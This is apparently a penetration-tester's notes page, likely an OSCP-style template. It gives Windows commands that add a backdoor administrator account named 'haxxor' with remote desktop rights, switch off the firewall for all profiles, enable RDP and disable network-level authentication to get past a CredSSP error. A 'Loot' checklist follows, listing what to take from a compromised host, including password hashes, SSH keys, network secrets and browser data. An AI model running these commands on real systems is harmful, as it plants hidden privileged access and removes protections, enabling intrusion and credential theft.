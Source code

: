 ```
net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

Turn firewall off
netsh firewall set opmode disable
netsh advfirewall set allprofiles state off
netsh advfirewall set currentprofile state off

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Or like this
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Failed to connect, CredSSP required by server.""

Add this reg key:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```



------------------------------------------------------------------------




----------------------------- LOOT LOOT LOOT LOOT -------------------




------------------------------------------------------------------------


## Loot

- Proof:
- Network secret:
- Password and hashes:
- Dualhomed:
- Tcpdump:
- Interesting files:
- Databases:
- SSH-keys:
- Browser:

### Proof
